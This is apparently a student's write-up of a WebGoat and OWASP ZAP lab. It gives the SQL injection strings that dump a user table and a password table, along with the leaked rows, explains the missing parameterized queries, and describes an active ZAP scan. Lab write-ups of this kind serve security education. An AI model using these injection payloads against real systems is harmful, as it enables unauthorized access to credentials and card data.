

# Security Testing

## Part I: WebGoat

Download the latest WebGoat release [here](https://github.com/WebGoat/WebGoat/releases/)

Start the WebGoat server on `8080`:
```bash
> java -jar webgoat-server-8.0.0.M21.jar
```

### SQL Injection Challenge

This challenge was completed by entering `Smith' or '1' = '1`. This causes the entire database to be shown since `or '1' = '1'` will always cause the query to math on all entries in the complete query:
```SQL
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
```
As seen `Hershey Jolly's` card number is `333300003333`
```
USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
...
10312, Jolly, Hershey, 333300003333, AMEX, , 0,
...
```

### SQL Injection (Advanced) Challenge

This challenge was completed by entering the following string:

```
smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '
```

This caused the complete query below to be executed, resulting in all of the password data to be leaked:

```SQL
SELECT * FROM user_data WHERE last_name = 'smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '1'
```

As seen `dave's` password is `passW0rD`:

```
USERID, USER_NAME, PASSWORD, COOKIE,
...
105, dave, passW0rD, ,
...
```

### How it works?

This SQL injections works since the developer of the website did not protect the backend database with parameterized queries. This failure allows for special charaters to be recognized as complete SQL queries. 

With out the proper input validation on forms, SQL injections will always present an issue. Additionally, it must always be assumed that user input is invalid and security risks should be prevented against.

## Part II: Zed Attack Proxy (ZAP)

1. [Getting started with ZAP](https://github.com/zaproxy/zaproxy/releases/download/2.6.0/ZAPGettingStartedGuide-2.6.pdf)
1. Download and install [OWASP ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
1. By default, both WebGoat and ZAP use port 8080. Change ZAP to use a different port `Tools > Options > Local Proxy`
1. Now that ZAP has been setup as a proxy, you should use your browser to passively interact with WebGoat.
1. Next use ZAP to attack the instance of WebGoat running on your machine.   See the section "Run an Active Scan with ZAP" on pg. 9 of the Getting Started Guide.

### High Risk Alerts

`ZAP` identified the site being at risk for SQL Injections as seen by the example on the `agree` parameter. However this attack is possible on almost every input field of the site. 

### ZAP Screendump

> 

## Reflection

This assignment was very interesting since I have never really experimented with SQL injections before. Although, I am aware that most (if not all) modern framworks have some measure of protection against things like this to prevent catastrophic loss of sensative information. Additionally, `ZAP` seems like a very useful tool that I plan on using again in the future on other projects. 
